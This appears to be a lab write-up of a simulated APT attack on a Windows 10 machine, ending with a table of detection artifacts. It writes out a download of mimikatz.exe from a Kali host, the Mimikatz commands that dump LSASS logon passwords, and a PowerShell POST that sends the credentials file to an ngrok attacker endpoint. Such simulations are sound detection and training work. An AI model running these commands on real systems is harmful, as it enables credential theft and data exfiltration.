 # Scenario 5: Credential Dumping & HTTPS Exfiltration (APT Simulation)

## Simulated Activity:
Simulate real-world attacker behavior involving credential dumping from LSASS using Mimikatz, followed by data exfiltration over a secure HTTPS channel — a common stealth tactic in advanced persistent threat (APT) operations.

---

## Tools Used:
- **Windows 10** (Target machine)
- **Python3 HTTP Server** (initial attempt)
- **ngrok** (for HTTPS tunneling)
- **Mimikatz** (Credential extraction)
- **Wireshark** (Network packet capture)
- **Sysmon + PowerShell Logging** (Log detection)

---

## 🔬 Simulation Steps:

## 1. Credential Dumping with Mimikatz:
### **File transferred** to target Windows machine using Python HTTP server:
```powershell
Invoke-WebRequest -Uri "http://<Kali-IP>:8000/mimikatz.exe" -OutFile "C:\temp\mimikatz.exe"
```

### Executed with Admin privileges:
```powershell
cd C:\temp

.\mimikatz.exe

log C:\temp\creds.txt

privilege::debug
sekurlsa::logonpasswords

exit
```
- Output saved in C:\temp\creds.txt using Mimikatz’s built-in logging.

## 2. Simulating Encrypted Exfiltration:
### Ngrok tunnel established on Kali to simulate HTTPS attacker server:
```bash
ngrok http 443
```
### Exfiltration Command from Windows:
```powershell
Invoke-WebRequest -Uri "https://<ngrok-address>" -Method POST -InFile "C:\temp\creds.txt"
```
- Response: 404 Not Found (✅ expected, since no backend receiver)
- ngrok console confirmed incoming HTTPS POST request from Windows.

## Logs & Forensics Observed:
|Source|Artifact|
|------|--------|
|Sysmon|Event ID 1(Process Creation) and event ID 3 (Network Connection)|
|Powershell|Command logs for file download and POST request|
|ngrok|POST request captured with timestamp|


